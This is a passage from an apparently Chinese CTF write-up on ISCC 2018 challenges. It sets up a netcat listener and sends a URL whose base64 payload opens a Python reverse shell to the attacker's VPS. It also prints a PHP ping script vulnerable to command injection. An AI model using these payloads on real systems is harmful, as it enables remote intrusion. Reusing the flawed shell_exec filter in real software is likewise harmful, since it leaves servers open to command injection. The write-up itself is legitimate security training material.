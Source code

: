 此时先在自己的VPS上面侦听端口：nc -lvp 端口号(和上面python代码里面的端口号一致即可)

把上面的语句用base64加密，放在下面的 `base64_decode('')` 单引号里面，然后访问：

```
http://118.190.152.202:8005/no_md5.php?a=`{`system(base64_decode('cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiYIRWUFNJUCIs7+P3KSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7IG9zLmR1cDIocy5maWxlbm8oKSwyKTtwPXN1YnByb2Nlc3MuY2FsbChbIi9iaW4vc2giLCItaSJdKTsn'))`}`
```

访问即可回弹shell[![](https://mochazz.github.io/img/ISCC2018%E6%BC%8F%E6%B4%9E/1.png)](https://mochazz.github.io/img/ISCC2018%E6%BC%8F%E6%B4%9E/1.png)

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E4%BA%8C"></a>漏洞二

这题题目叫做：php是世界上最好的语言，题目源代码如下： 请ping我的ip看你能Ping通吗？

```
&lt;?php
    header("Content-Type:text/html;charset=utf-8");
    echo "请ping我的IP 看你会ping通吗";
    $target = $_REQUEST[ 'ip' ];
    $target=trim($target);
    $substitutions = array(
        '&amp;'  =&gt; '',
        ';' =&gt; '',
        '|' =&gt; '',
        '-'  =&gt; '',
        '$'  =&gt; '',
        '('  =&gt; '',
        ')'  =&gt; '',
        '`'  =&gt; '',
        '||' =&gt; '',
    );
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) `{`
        // Windows

        $cmd = shell_exec( 'ping  ' . $target );
    `}`
    else `{`
        // *nix
        $cmd = shell_exec( 'ping  -c 1 ' . $target );
    `}`
    echo  "&lt;pre&gt;`{`$cmd`}`&lt;/pre&gt;";
?&gt;
```

绕过也很简单，如下：

[![](https://mochazz.github.io/img/ISCC2018%E6%BC%8F%E6%B4%9E/4.png)](https://mochazz.github.io/img/ISCC2018%E6%BC%8F%E6%B4%9E/4.png)
